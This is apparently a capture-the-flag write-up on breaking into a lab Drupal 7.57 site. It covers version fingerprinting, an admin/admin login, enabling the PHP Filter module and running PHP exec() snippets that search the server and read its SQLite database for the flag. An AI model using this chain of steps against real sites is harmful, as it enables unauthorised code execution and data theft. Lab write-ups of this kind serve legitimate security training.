# Our new site! (exploit) (author: SNN)


## Description

```shell
We already started thinking about 2024! Our test site is already up and running.

Please help us and contribute!

username: user password: woAheZiUWZPW9wEYKYG
```

## Task analysis & solution
First thing first:
Trying to ssh to that port and number:

```shell
└ $ ssh user@10.10.8.61 -p 34155
kex_exchange_identification: Connection closed by remote host
└ $ ssh user@10.10.8.61 -p 34155 -v
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
debug1: Connecting to 10.10.8.61 [10.10.8.61] port 34155.
debug1: Connection established.
debug1: identity file C:\\Users\\snn/.ssh/id_rsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_rsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519 type 3
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_for_Windows_8.1
debug1: kex_exchange_identification: banner line 0: HTTP/1.1 400 Bad Request
debug1: kex_exchange_identification: banner line 1: Date: Tue, 26 Dec 2023 21:21:15 GMT
debug1: kex_exchange_identification: banner line 2: Server: Apache/2.4.10 (Debian)
debug1: kex_exchange_identification: banner line 3: Content-Length: 302
debug1: kex_exchange_identification: banner line 4: Connection: close
debug1: kex_exchange_identification: banner line 5: Content-Type: text/html; charset=iso-8859-1
debug1: kex_exchange_identification: banner line 6:
debug1: kex_exchange_identification: banner line 7: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
debug1: kex_exchange_identification: banner line 8: <html><head>
debug1: kex_exchange_identification: banner line 9: <title>400 Bad Request</title>
debug1: kex_exchange_identification: banner line 10: </head><body>
debug1: kex_exchange_identification: banner line 11: <h1>Bad Request</h1>
debug1: kex_exchange_identification: banner line 12: <p>Your browser sent a request that this server could not understand.<br />
debug1: kex_exchange_identification: banner line 13: </p>
debug1: kex_exchange_identification: banner line 14: <hr>
debug1: kex_exchange_identification: banner line 15: <address>Apache/2.4.10 (Debian) Server at 172.17.0.6 Port 80</address>
debug1: kex_exchange_identification: banner line 16: </body></html>
kex_exchange_identification: Connection closed by remote host
└ $
```
No results access, let's give up ssh for now.

Try in a web browser:


Good! As we can see we are in some page that was developed by 
`Drupal`

A quick search in web the `Drupal is a free and open-source web content management system written in PHP and distributed under the GNU General Public License. Wikipedia`

So we are in the CMS site and as the hint in the challenge sais - `Please help us and contribute!`

When opened the browser's development tools we can try to see more details about the site:

```web
<meta name="Generator" content="Drupal 7 (http://drupal.org)">
```

From here we understood that we are dealing with Drupal version 7.

Check if we have robots.txt contents:
http://10.10.8.61:34155/robots.txt


```web
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images
# Files
...
Disallow: /CHANGELOG.txt
...

```
Opening the site url
```url
http://10.10.8.61:34155/CHANGELOG.txt
```

```web
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.

Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.

Drupal 7.55, 2017-06-07
```

From here we can see that we are dealing with Drupal v. 7.57, date 2018-02-21

Now we have to see what vulnerabilities we might find on the web:


I've tried many metasploit from first suggestion, without success:




Anyway...most of the articles were about remote code execution with php module. However in our case php is not installed. 

Then I started to find what I might need to install php on this site - to have admin access.

Quick search on net for "Drupal 7 admin explot":
I've got these two results:


Since I knewed that SQL is of no interest, 
I've put more effort in second result: 
[Drupal 7x exploitation](https://medium.com/@yasmeena_rezk/drupal-7-x-exploitation-7eb1c7cfa4dc)

I've tried all from the beginning but I was excited about this line:
```python
# python2.7  drupalgeddon.py -t <url> -u <username>-p <password>
python2.7  drupalgeddon.py -t http://drupal-qa.ex.com -u admin -p admin
```

No matter that the article was about Drupal 7.30, I 
immediately decided to give it a try with admin/admin for access -> 

:voila:



Stupid I know, I should've tried these first! 
Anyway now the fun part:
1. Go to Modules
2. Enable PHP Filter
3. Save Configuration:



Now go and add an article:


When you click on preview button we can see that our command has executed a php code:


It looks like we are in /var/www/html folder so why not search for a file containing the flag, which sohuld start with ***MilestoneCTF***.
I decided to look one folder upper - /var/www

Here we can see that by using this code:

```code
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;
exec('grep -Rnw "/var/www" -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

We have find a file **/var/www/html/sites/default/files/.ht.sqlite** that contains something with ***MilestoneCTF***


Let's put grep magic here:

```php
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;

exec('strings /var/www/html/sites/default/files/.ht.sqlite | grep -m 1 -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```



> The flag was inside sqlite database in plain text:
> ### ***MilestoneCTF{this-is-a-really-nice-flag}***
